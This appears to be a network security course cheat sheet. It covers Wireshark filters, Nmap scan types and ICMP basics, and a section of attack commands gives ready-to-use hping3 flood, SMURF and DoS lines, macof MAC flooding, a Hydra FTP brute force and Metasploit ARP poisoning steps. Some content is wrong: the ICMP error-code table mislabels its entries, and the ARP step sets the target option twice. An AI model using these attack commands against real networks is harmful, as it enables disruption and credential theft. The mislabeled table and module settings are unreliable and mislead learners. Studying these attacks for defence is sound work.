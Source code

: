 **Instructor: Dimitris Amprazis**

#### Types of Attacks:
1. [ARP Cache Poisoning / Spoofing](#arp-cache-poisoning--spoofing-w-metasploit)
1. [SMURF Attack / ICMP Flooding](#hping-commands)
1. [Denial of Service / DoS Attack](#hydra-command)
1. [Christmas Tree Attack](#hping-commands)
1. [Brute Force Attack](#hydra-command)
1. [MAC Flooding](#macof-commands)
1. [SSL Stripping](#ssl-stripping)

#### Wireshark Utils:
- Comparison: 
    - source ip filter: `ip.src==216.58.198.14`
    - destination ip filter: `ip.dst==192.168.1.49`
    - `tcp.port eq 80`
    - `ip.dst != 192.168.1.1`
- Boolean filter: `http||arp`
- Boolean & Comparison filter combination: `http&&ip.src==95.100.242.40`
- Filter lost TCP Segment filter: `tcp.analysis.lost_segment`
- Filter TCP latency above n second: `tcp.time_delta > n`
- Filter Retransmitted TCP Segment: `tcp.analysis.retransmission`
- Filter a frame that contains a specific text: `frame contains username123`
- Show suspicious traffic (if any): `Analyze > Expert Information > Severity:Warning`
- Filter Specific http methods: `http.request.method==POST`
- Filter all FTP Traffic: `ftp.request.command` 
- Filter all FTP Data Traffic: `ftp-data` 
- Filter all Telnet Traffic: `telnet` 
- Filter all SMTP Traffic: `smtp` 
- Filter all DNS Traffic: `dns` 
- Filter DNS Query Answers more than 4:
  > `dns.count.answers > 4` 
  > 
  > This is used for inspecting whether any zombie is present in a network and trying to connect to a C2 server, so on DNS resolving and an answer more than 4 we can suspect it to be a malicious url.
  >
  > Also using the PDU Hierarchical Viewer and under "**Domain Name System (response)**" for a selected DNS response packet we can see the field "**Answer RRs**" that shows the DNS Query Answers returned.
- View Protocol Hierarchy: 
  > `Statistics > Protocol Hierarchy`
  >
  > The above window shows a list of protocols that has been used to communicate.
  >
  > Mostly this is used to find any suspicious traffic especially in the TCP section when the segment is shown as **"Data"**.
  >
  > Wireshark does it because it doesn't what kind of payload is present inside its PDU(there could be false +ves).
- Filtering capture before scanning:
  > NOTE: The following steps might vary for every protocol but the procedure remains the same.
  - `Capture > Capture Filters >` Press <kbd>+</kbd> `> [SET THE NAME AND FILTER]`
  - `[INTERFACE SELECTION WINDOW] > [PRESS GREEN BOOKMARK BUTTON AND SELECT THE CREATED FILTER] > [DOUBLE CLICK INTERFACE]`
- Insert a key to decrypt captured packets: `Edit > Preferences > Protocols > [SELECT SPECIFIC PROTOCOL] > Decryption Keys [EDIT] >` Press <kbd>+</kbd> ` > [ADD KEY TYPE AND KEY]`. 
- Extract a binary file from TCP Stream:
  - `Right click contextual data packet from capture window > Follow > TCP Stream`
  - `Show and save data as > Raw > Save as`
- Kerberos Misc:
  - Filter user account names: `kerberos.CNameString and !(kerberos.CNameString contains $)`
  - View domain name: `PDU Hierarchical Viewer > Kerberos > as-req > req-body > cname > realm`
- List HTTP Objects: `File > Export Objects > HTTP`

---

#### Nmap Utils:
  - **-A** - OS Detection, service detection, script scanning
  - **-Pn** - Treat all hosts as online and skip host discovery. If the target blocks ICMP requests, this will result in Nmap assuming that the host is down.
  - **-T4** - set the speed of the scan(valid params: 0 - 5)
  - **-p1-65535** - set port scan range(-p- is an alternative to scan all ports)

---

#### Nmap Port Scanning:

- **TCP Scan**: `nmap -sT -p445 192.168.8.123`
  > **Port Opened**: (src)`SYN`, (dst)`SYN, ACK`, (src)`ACK`, (src)`RST`
  > 
  > **Port Closed**: (src)`SYN`, (dst)`RST, ACK`

- **SYN Scan**: `nmap -sS -p445 192.168.8.123`
  > **Port Opened**: (src)`SYN`, (dst)`SYN, ACK`, (src)`RST`
  > 
  > **Port Closed**: (src)`SYN`, (dst)`RST, ACK`

- **FIN Scan**: `nmap -sF -p445 192.168.8.123`
  > **Port Opened**: (src)`FIN`
  > 
  > **Port Closed**: (src)`SYN`, (dst)`RST, ACK`

- **NULL Scan**: `nmap -sN -p445 192.168.8.123`
  > **Port Opened**: (src)`<None>`
  > 
  > **Port Closed**: (src)`<None>`, (dst)`RST, ACK`

- **XMAS Scan**: `nmap -sX -p445 192.168.8.123`
  > **Port Opened | Filtered**: (src)`FIN, PSH, URG`
  > 
  > **Port Closed**: (src)`FIN, PSH, URG`, (dst)`RST, ACK`

- **UDP Scan**: `nmap -sU -p161 192.168.8.123`
  > **Port Opened | Filtered**: (src)`<Datagram>`
  > 
  > **Port Closed**: (src)`<Datagram>`, (dst)`Dst/Port unreachable`

---

#### ICMP / Ping / Host Discovery Utils:

  > **NOTE**:
  > - ICMP Payload size is 32 Bytes
  > - ICMP MTU is 1472 bytes. Beyond that packet is fragmented

  - **Ping Util**:
    > **Normal Ping Requests** - `ping 192.168.1.2`
    >
    > **Ping Requests with hostname resolution** - `ping -a 192.168.1.2`
    >
    > **Ping n number of packets** - `ping -n 8 192.168.1.2`
    >
    > **Fragment Ping packet** - `ping -l 33 192.168.1.2`

  - **ICMP Codes**:

    | Query Codes                       |      Error Codes                  |
    |-----------------------------------|-----------------------------------|
    | **Type 0** - Echo Reply           | **Type 3** - Echo Reply           |
    | **Type 8** - Echo Request         | **Type 4** - Echo Request         |
    | **Type 9** - Router Advertisement | **Type 5** - Router Advertisement |
    | **Type 10** - Router Solicitation | **Type 11** - Router Solicitation |
    | **Type 13** - Timestamp Request   | **Type 12** - Timestamp Request   |
    | **Type 14** - Timestamp Reply

---

#### Hping Commands:

- Perform Christmas Tree Attack:
  > \> `hping3 <victim's_ip> --flood --rand-source --destport 80 -c 25000 --syn --ack --fin --rst --push --urg --xmas --ymas`

- Perform SMURF Attack / ICMP Flooding:
  > \> `hping3 --icmp --flood -a <spoofed_victim's_ip> <broadcast_ip>`

- Perform Denial of Service / DoS Attack:
  > \> `hping3 -c <no_of_packets_to_send> -d <packet_size> -S -w <tcp_window_size> -p <port_no> --flood --randsource <target's_ip>`

---

#### macof Commands:
- Simple MAC Flooding: `macof -i <interface_name> [-n <int>]`
- Targeted MAC Flooding: `macof -i <interface_name> -d <target's_ip>`

---

#### Hydra Command:
- Perform Brute force on FTP:
  > `hydra -L <username_lists.txt> -P <passwd_lists.txt> [-vV] <target's_ip> ftp`

---

#### ARP Cache Poisoning / Spoofing (/w Metasploit):

- use the following aux module:
  >msf > `use auxiliary/spoof/arp/arp_poisoning`

- set the **target's** & **gateway's** ip address:
  >msf > `set DHOSTS <target's_ip>`
  >
  >msf > `set DHOSTS <gateway's_ip>`

- run the command:
  >msf > `exploit`

---

#### SSL Stripping:
> AKA SSL downgrade or HTTP downgrade attacks which is a type of cyber attack where hackers downgrade a web connection from the more secure **HTTPS** to the less secure **HTTP**. This makes all communications unencrypted and sets the stage for a man-in-the-middle attack, in which the hacker sits in the middle of a conversation listening or intercepting information.

---

#### Extras:
- Tor Communcations can't be monitored in Wireshark instead we can use **[NetworkMiner](https://www.netresec.com/?page=NetworkMiner)**. Also the capture data shown is much more jargonless.
